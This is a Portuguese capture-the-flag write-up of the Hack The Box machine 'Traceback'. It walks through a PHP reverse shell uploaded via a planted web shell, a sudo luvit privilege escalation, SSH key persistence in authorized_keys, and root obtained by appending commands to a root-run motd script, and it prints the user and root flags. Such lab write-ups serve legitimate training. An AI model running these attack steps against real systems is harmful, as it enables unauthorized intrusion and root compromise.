


# Writeup traceback

## Scan

```bash
# Nmap 7.92 scan initiated Wed Dec 21 15:08:26 2022 as: nmap -sVC -Pn -v -T5 -p 22,80 -oN fullnamp.txt 10.129.29.61
Nmap scan report for 10.129.29.61
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 21 15:08:40 2022 -- 1 IP address (1 host up) scanned in 14.70 seconds
```

## Enumeration

    Dando uma olhada na porta 80, podemos ver que aparentemente a máquina foi vítima de um deface pelo autor "Xh4H". 

    Se olharmos o código fonte. podemos ver o seguinte comentário deixado na página:

```html
<!--Some of the best web shells that you might need ;)-->
```

    Uma mensagem falando sobre algumas webshells, nos dando uma dica do que iremos precisar olhar em seguida.

    Se pesquisarmos sobre webshells referente ao autor "Xh4H", encontraremos a seguinte página no github --> [GitHub - Xh4H/Web-Shells: Some of the best web shells that you might need.](https://github.com/Xh4H/Web-Shells)

    Podemos o nome dessas webshells para criar um wordlist para podermos fazer um fuzzing na página e descobrir qual webshell está implantada no host.

```bash
ffuf -u http://10.129.27.174/FUZZ -w Web-Shells/wordlist                                                                                        

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.27.174/FUZZ
 :: Wordlist         : FUZZ: Web-Shells/wordlist
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

smevk.php               [Status: 200, Size: 1261, Words: 318, Lines: 59, Duration: 1591ms]
:: Progress: [18/18] :: Job [1/1] :: 20 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```

    Dessa maneira, encontramos a webshell "smevk.php" sendo utilizada no host.



    Credenciais de acesso: **admin:admin**

    Dentro do painel, podemos inserir uma reverse shell php pela opção de fazer upload de arquivo.



    Feito o upload, acessamos nosso arquivo de reverse shell "http://10.129.27.174/php-reverse-shell.php" e pegamos shell reversa.

> Shell reversa ao acessar o arquivo

```bash
nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.85] from (UNKNOWN) [10.129.27.174] 59942
Linux traceback 4.15.0-58-generic #64-Ubuntu SMP Tue Aug 6 11:12:41 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 13:50:45 up 17 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

## Exploitation

    Após pegarmos shell, podemos ver que não temos acesso a flag, porém, temos uma nota no diretório do nosso usuário que foi escrita pela usuário "sysadmin".

```bash
-rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16  2020 note.txt
$ cat note.txt
cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

    A nota menciona algo sobre a linguagem Lua. Se olharmos a saída de **sudo -l** vemaos as seguintes informações:

```bash
$ sudo -l
sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

    O nosso usuário tem permissão de rodar alguma coisa com os privilégios do usuário sysadmin. Pesquisando um pouco, podemos encontrar o seguinte link --> https://luvit.io/ que nos ensina mais sobre o luvit.

    Podemos usar o luvit para executar um script em lua para tentarmos elevar nosso privilégio.

> Criando arquivo Lua

```bash
echo 'os.execute("/bin/bash")' > privesc.lua
```

> Executando o script

```bash
$ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
sysadmin@traceback:/home/webadmin$
```

    Com a shell elevada para o usuário sysadmin, podemos gerar um par de chaves de ssh e colocar em seu authorized_keys para podermos acessar a shell via ssh.

> Gerando ssh files

```bash
ssh-keygen -f traceback
```

> Pegando chave pública e colocando em authorized_keys

```bash
sysadmin@traceback:~/.ssh$ echo "Conteudo TRACEBACK.PUB" >> authorized_keys
```

> Mudando permissão da key e pegando shell ssh

```bash
┌──(kali㉿kali)-[~/…/hackthebox/machines/to-do/traceback]
└─$ chmod 600 traceback   

┌──(kali㉿kali)-[~/…/hackthebox/machines/to-do/traceback]
└─$ ssh sysadmin@10.129.27.174 -i traceback
The authenticity of host '10.129.27.174 (10.129.27.174)' can't be established.
ED25519 key fingerprint is SHA256:t2eqwvH1bBfzEerEaGcY/lX/lrLq/rpBznQqxrTiVfM.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:10: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.27.174' (ED25519) to the list of known hosts.
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 


Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$
```

> User Flag

```bash
621ef52e85f14991c197759a9fae519b
```

## Privilege Escalation

    Para fazer a enumeração local, podemos usar o script linpeas e ver o que ele nos traz.

    Depois de rodar, podemos ver um ponto interessante que pode ser usado para o privesc.

```bash
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                                                                                 
  Group sysadmin:                                                                                                                                                                            
/etc/update-motd.d/50-motd-news                                                                                                                                                              
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/webadmin/note.txt
```

    Após uma pesquisa, descobrimos que os arquivos motd.d são executados como root e o arquivo "00-header" é executado quando um usuário se conecta via ssh na máquina. Então podemos adicionar um código a esse arquivo, deslogar do ssh e logar novamente. 

OBS: Esse passo tem q ser feito em menos de 30 segundos pois a máquina reseta a configuração dos arquivos a cada 30 segundos. Podemos ver isso acontecendo se usarmos o pspy.

> Código adicionado

```bash
echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/authorized_keys" >> 00-header && echo "echo oi" >> 00-header
```

    O código `&& echo "echo oi" >> 00-header` foi adicionado para método de confirmação de que o código foi executado antes de ser apagado.

> Conectar no ssh executa o código

```bash
┌──(kali㉿kali)-[~/…/hackthebox/machines/to-do/traceback]
└─$ ssh sysadmin@10.129.27.70 -i traceback
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

oi


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Dec 25 16:35:48 2022 from 10.10.14.85
$
```

    Com o código executado, podemos pegar uma shell ssh com o usuário root.

```bash
──(kali㉿kali)-[~/…/hackthebox/machines/to-do/traceback]
└─$ ssh root@10.129.27.70 -i traceback    
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

oi


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Apr 22 05:54:51 2021
root@traceback:~#
```

> Root Flag

```bash
root@traceback:~# cat root.txt
b0c198ca612ccf40b7b6e793b53eb47e
```
